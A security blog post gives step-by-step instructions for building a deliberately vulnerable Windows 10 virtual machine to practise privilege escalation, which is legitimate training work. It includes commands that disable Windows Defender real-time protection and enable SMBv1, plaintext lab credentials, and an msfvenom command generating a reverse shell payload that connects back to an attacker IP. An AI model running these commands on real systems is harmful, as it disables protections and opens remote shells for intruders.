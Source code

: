 ```yaml
---
title: "Windows Privilege Escalation lab"
date: 2023-02-16T13:41:42+03:00
menu:
  sidebar:
    name: Setting Up a lab
    identifier: setting_up_a_lab
    parent: windows
    weight: 1
draft: false
---
```




## A Step-by-Step Guide

When it comes to privilege escalation, the biggest obstacle learners face is where to practice. Most of the time, this is a step that comes after performing all other steps like reconnaissance, scanning, and gaining low privilege user access. When I was looking to better understand privilege escalation, I wanted a lab where I could practice this step alone, without having to go through different steps to gain low privilege user access. This blog post will help you with that. We will learn how to set up a lab where we can practice our craft

To create a lab for testing and learning Windows privilege escalation, the following steps will help achieve that. As this is a post-exploitation process, this write-up assumes that the reader understands how to set up a hacking lab using virtual machine software and how to use Linux.

The following are the steps to set up a lab for practising Windows privilege escalation:

#### Step 1: 
Ensure that you have a virtual machine software with Linux installed. This is because we will be installing the Windows 10 that we will be attacking into the same virtual machine sotware.


#### Step 2: 
Download the [Windows 10 ISO](https://www.microsoft.com/en-us/software-download/windows10ISO) from the Microsoft website and download the following tools to your Linux directory: [PowerUp.ps1](https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1), [winPEASany.exe](https://github.com/carlospolop/PEASS-ng/releases/download/20230212/winPEASany.exe), [setup script](https://raw.githubusercontent.com/Tib3rius/Windows-PrivEsc-Setup/master/setup.bat), and so on. You can download all the tools you want to use for Windows privilege escalation.


#### Step 3:
Install Windows 10 into a virtual machine. Again, as this is a post-exploitation step, it as sumes that you have a basic knowledge of setting up a hacking lab.


#### Step 4:
Log in to the Windows 10 machine and perform the following:

-  Enable SMB version 1 for easier file transfer. To do this, open PowerShell as an administrator and run:

`Enable-WindowsOptionalFeature -Online -FeatureName "SMB1Protocol-Client" -All`

-  Disable real-time protection on Windows. Open PowerShell as an administrator and run:

`Set-MpPreference -DisableRealtimeMonitoring $true`


#### Step 5:

-  If you downloaded the tools into the Windows 10 that we installed, then continue with step 7.
-  If you used a Linux machine to download the tools and script above, change the directory to the one with the tools and set up an SMB server in a directory where the tools are with the following command (my directory's name is  tools, change the directory name in the command to that of yours):

`python /usr/share/doc/python3-impacket/examples/smbserver.py tools .`

![screenshot_for_tools](narycyber.github.io/content/posts/Privilege%20Escalation/Windows/setting%20up%20a%20lab/Screenshotfrom2023-02-1415-07-20.png)
*The above screenshot shows tools in my kali machine.* 


&nbsp;  


![python_command](narycyber.github.io/content/posts/Privilege%20Escalation/Windows/setting%20up%20a%20lab/Screenshotfrom2023-02-1415-07-59.png) 
The above screenshot shows the python command to setup smb server. 

&nbsp;  

#### Step 6: 
In our Windows 10, since we already enabled SMB protocol, open the Command Prompt (CMD) as an administrator and copy the setup.bat file from the Kali Linux machine where we set up the SMB server to our Windows machine using the following command:


```
copy \\{put IP address of the Linux machine}\{folder where you set up an SMB server}\setup.bat .

e.g. copy \\192.168.1.123\tools .
```

#### Step 7.
-   Run the setup script. On your cmd as administrator, change folder to where you saved the script and run the following command.

`.\setup.bat`

-   When the script finishes, restart Windows.

#### Step 8.
-   The VM (Windows machine) should auto-login as an admin user. We have to sign out and login as a user in order to continue with Windows privilege escalation practices.

Credentials for logging in after running a setup script
```
User: User, password: password321  
User: Admin, password: password123
```

-   Sometimes after you log in as a user, you will get a command prompt asking you for an Admin password. Provide the above password to continue.

#### Step 9.
-   Create a snapshot of your VM if the VM software you are using supports it. This will let you reset the VM to this exact point if you want to start again with a fresh setup.
-   A writable directory exists in the C drive called PrivEsc. You can use this directory to save files.

#### Step 10. 
In your Linux machine, create a reverse shell payload that will be used in a Windows machine when we have any admin privilege to execute commands. Run the following msfvenom command on Linux terminal

`# msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.127 LPORT=53 -f exe -o reverse.exe`

Please change the `LHOST` to your `Linux IP address`, and `LPORT` to the `port you want to listen to.` This reverse shell can be caught using netcat or Metasploit’s own multi/handler.

- Copy this payload into windows PrivEsc folder.
`e.g. copy\\192.168.1.123\tools\reverse.exe . `
- Then create a listener using netcat or metasploit's multi/handler.
- Run the reverse shell payload (`.\reverse.exe`) to continue with the practise using linux machine instead on windows machine 
![reverse_listener](reverse_and_listner.png)

&nbsp;  
### Conclusion
The aforementioned steps demonstrate how to establish a lab for practising Windows privilege escalation. By following these instructions, you can create a completely functional lab environment to enhance your skills in Windows privilege escalation. Through this lab, you can gain valuable insights into identifying and exploiting vulnerabilities, comprehending the intricacies of escalating privileges, and improving your ability to secure Windows systems.
